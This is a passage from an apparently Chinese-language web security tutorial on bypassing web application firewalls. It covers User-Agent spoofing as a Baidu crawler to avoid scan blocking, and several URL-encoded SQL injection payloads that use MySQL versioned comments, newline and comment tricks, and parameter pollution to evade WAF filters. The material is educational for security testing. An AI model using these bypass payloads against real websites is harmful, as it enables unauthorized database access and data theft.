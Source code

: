 运行结果

![img](https://gitee.com/YatJay/image/raw/master/img/202202171202659.png)

使用伪装脚本进行爬取，发现网站是没有任何拦截的。返回200的页面是存在的，404的页面不存在  

![img](https://gitee.com/YatJay/image/raw/master/img/202202171202110.png)

![](https://gitee.com/YatJay/image/raw/master/img/202202171202031.png)

没有触发拦截，扫描结果正确，其原因就在于，请求的时候HTTP请求头部中添加了百度爬虫的User-Agent

### 方法五：数据库特性绕过补充——MySQL数据库版本编号特性绕过

数据库特性（补充）

```sql
%23x%0aunion%23x%0Aselect%201,2,3  

%20/*!44509union*/%23x%0aselect%201,2,3  //数据库版本编号特性

id=1/**&id=-1%20union%20select%201,2,3%23*/

%20union%20all%23%0a%20select%201,2,3%23  //all干扰union和select连续被匹配

```

分析下句

```sql
%20union%20/*!44509select*/%201,2,3
```

/\*!50001\*/ 注释解释

在MySQL里，多行解释 是 /* \*/，这个是SQL的标准 

但是MySQL扩张了解释 的功能

假如 在起头的/*后头加了惊叹号，那么此解释 里的语句将被执行，比如 

```bash
mysql> /*! select * from test */;
+------+
| id  |
+------+
|  1 |
|  2 |
|  3 |
+------+
3 rows in set (0.00 sec)
```

再看如下语句

```sql
/*!50001 select * from test */;
```

